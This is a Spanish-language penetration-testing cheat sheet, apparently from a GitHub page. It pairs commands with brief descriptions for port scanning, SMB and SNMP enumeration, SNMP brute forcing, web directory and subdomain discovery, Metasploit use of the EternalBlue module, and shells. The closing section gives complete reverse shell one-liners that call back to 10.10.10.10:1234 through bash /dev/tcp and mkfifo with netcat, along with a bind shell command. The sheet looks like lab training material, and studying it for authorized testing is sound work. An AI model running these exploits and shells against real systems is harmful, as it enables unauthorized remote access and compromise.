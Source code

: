## Pentesting

| **Command**                                                                           | **Description**                                                                     |
| ------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------- |
| **Service Scanning**                                                                  |                                                                                     |
| `nmap 10.129.42.253`                                                                  | Corre NMAP en la IP                                                                 |
| `nmap -sV -sC -p- 10.129.42.253`                                                      | Corre NMAP con escaneo de scripts y servicios en la IP hacia todos los puertos      |
| `locate scripts/citrix`                                                               | Lista varias NMAP scripts disponibles                                               |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40`                                | Corre un NMAP script en la IP con puerto 445                                        |
| `netcat 10.10.10.10 22`                                                               | Grab banner of an open port                                                         |
| `smbclient -N -L \\\\10.129.42.253`                                                   | Lista SMB compartidas                                                               |
| `smbclient \\\\10.129.42.253\\users`                                                  | Conecta a un SMB compartido                                                         |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`                            | Escanea SNMP en una IP                                                              |
| `onesixtyone -c dict.txt 10.129.42.254`                                               | Fuerza Bruta SNMP Secret String                                                     |
| **Web Enumeration**                                                                   |                                                                                     |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`        | Ejecute un escaneo de directorio en un sitio web                                    |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Ejecute un escaneo de subdominio en un sitio web                                    |
| `curl -IL https://www.inlanefreight.com`                                              | Banner del sitio web                                                                |
| `whatweb 10.10.10.121`                                                                | Lista de detalles sobre el servidor web/certificados                                |
| `curl 10.10.10.121/robots.txt`                                                        | Lista de directorios potenciales en `robots.txt`                                    |
| `ctrl+U`                                                                              | Ver fuente de página (en Firefox)                                                   |
| **Public Exploits**                                                                   |                                                                                     |
| `searchsploit openssh 7.2`                                                            | Buscar hazañas públicas para una aplicación web                                     |
| `msfconsole`                                                                          | MSF: inicie el marco de MetaSploit                                                  |
| `search exploit eternalblue`                                                          | MSF: busque hazañas públicas en MSF                                                 |
| `use exploit/windows/smb/ms17_010_psexec`                                             | MSF: comience a usar un módulo MSF                                                  |
| `show options`                                                                        | MSF: Muestre las opciones requeridas para un módulo MSF                             |
| `set RHOSTS 10.10.10.40`                                                              | MSF: establezca un valor para una opción de módulo MSF                              |
| `check`                                                                               | MSF: prueba si el servidor de destino es vulnerable                                 |
| `exploit`                                                                             | MSF: ejecute el exploit en el servidor de destino es vulnerable                     |
| **Using Shells**                                                                      |                                                                                     |
| `nc -lvnp 1234`                                                                       | Inicie un oyente `nc` en un puerto local                                            |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                 | Envíe un reverse shell desde el servidor remoto                                     |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`    | Otro comando para enviar una reverse shell desde el servidor remoto                 |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`         | Inicia un bind shell en el servidor remoto                                          |
| `nc 10.10.10.1 1234`                                                                  | Conecta a un bind shell iniciado en el servidor remoto                              |